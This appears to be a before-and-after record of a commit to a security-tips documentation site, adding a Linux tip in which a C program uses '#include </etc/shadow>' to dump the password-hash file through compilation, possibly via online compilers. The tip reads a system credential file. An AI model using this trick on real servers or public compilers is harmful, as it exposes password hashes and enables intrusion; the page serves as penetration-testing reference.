

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/linux.md, in a window 1280 px wide and 900 px high, scrolled down 723 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add linux compilation tip

````diff
--- a/docs/linux.md
+++ b/docs/linux.md
@@ -35,3 +35,26 @@ ls
 ```
 
 It can be useful when you can't set the bit or you have a capability on `ld-linux` set.
+
+
+### Compile C/C++ including a file
+
+From [@Poita_](https://twitter.com/Poita_/status/1198413809670598662) and [hboeck](https://blog.hboeck.de/archives/898-include-etcshadow.html). You can include a file or even `/dev/stdin`
+when you compile a file. So, it's possible to include `/etc/shadow` if you have
+the correct permissions on the server. Hboeck explains that it's possible to get
+the file from online compiler ([cpp.sh](http://cpp.sh/) may work).
+
+
+```c
+#include <stdio.h>
+int main() {
+  printf("%s\n",
+    #include </etc/shadow>
+  )
+  return 0;
+}
+```
+
+```bash
+$ g++ a.cpp && ./a.out
+```
````
